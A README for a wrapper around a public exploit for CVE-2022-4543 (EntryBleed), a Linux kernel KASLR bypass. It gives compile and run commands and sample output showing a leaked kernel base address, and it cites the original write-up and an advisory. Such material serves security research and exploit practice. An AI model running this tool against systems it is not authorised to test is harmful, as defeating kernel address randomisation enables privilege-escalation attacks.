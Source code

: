 # cve-2022-4543-wrapper

## Introduction

This is a wrapper of willsroot's CVE-2022-4543 exploit to help you judge and get kernel base address.

## How to use

### Compile

Base on your demand(Optional):

```bash
gcc dekaslr.c --static -o dekaslr
g++ main.cpp --static -o main
```

For some OS, install static libc first.

### De-KASLR

```bash
./main
[*] Usage: ./binary dekaslr_path entry_SYSCALL_64_offset(in hex) max_loop
```

```bash
$ ./main ./dekaslr 0x100000 200
ffffffffa2600000: 53/200
```

After running both program, it will give you the most frequent address base on your offset.

In practice, the real kernel base address will appear more than 1/4 in total tries. Recommend more than 100 tries.

## References

- https://www.willsroot.io/2022/12/entrybleed.html
- https://access.redhat.com/security/cve/cve-2022-4543
